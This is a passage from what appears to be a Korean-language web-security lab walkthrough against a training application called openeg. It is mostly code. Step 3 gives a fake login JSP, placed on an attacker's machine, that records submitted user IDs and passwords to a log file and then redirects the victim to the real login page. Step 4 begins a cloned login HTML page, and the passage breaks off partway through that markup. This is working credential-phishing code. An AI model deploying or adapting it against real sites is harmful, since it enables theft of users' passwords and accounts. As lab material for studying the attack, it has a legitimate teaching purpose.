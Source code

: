    

3. 해커 머신에서 fakeLogin.jsp을 다음과 같이 작성한다

   ```jsp
   <%@page import="java.util.Date"%>
   <%@page import="java.io.*"%>
   <%@ page language="java" contentType="text/html; charset=UTF-8" pageEncoding="UTF-8"%>
   <%	String id = request.getParameter("userId");
   	if (id == null) id = "";		
   	String pw = request.getParameter("userPw");	
   	if (pw == null) pw = "";		
   	String log = String.format("<br/>ID = [%s]\tPW = [%s]", new Object[] { id, pw });	
   
   	try {		
           String filename= request.getSession().getServletContext().getRealPath("/log.html");   
           FileWriter fw = new FileWriter(filename, true); 
           
           //the true will append the new data        
           fw.write(log);        
           fw.close();            
       } catch (IOException e) {   
           e.printStackTrace();
       }	
   
   System.out.println(log);		response.sendRedirect("http://openeg.com:8181/openeg/login.do");
   %>
   ```

   

4. 해커머신에서 fakeLogin.html을 다음과 같이 만들어 놓는다

   ```html
   <!DOCTYPE html>
   <html>
       <head>
           <meta charset="UTF-8">
           <TITLE>Login</TITLE>
           <LINK href="../../css/main.css" rel="stylesheet" type="text/css">
           <SCRIPT type="text/javascript">	
               function checkErrCode() {		
                   var errCode = "";		
                   if (errCode != null || errCode != "") {			
                       switch (errCode) {			
                           case 1:				
                               alert("가입된 사용자ID가 아닙니다!");				
                               break;			
                           
                           case 2:				
                               alert("비밀번호가 일치하지 않습니다!");		
                               break;		
                           
                           case 4:			
                               alert("로그인후에 사용가능합니다.");	
                               break;	
                               
                           case 3:				
                               alert("회원가입 처리가 완료되었습니다! 로그인 해 주세요!");	
                               location.href = "/openeg/login.do";			
                               break;		
                       }		
                   }	
               }
               </SCRIPT>
               <META name="GENERATOR" content="MSHTML 11.00.9600.17496">
       </HEAD>
   ```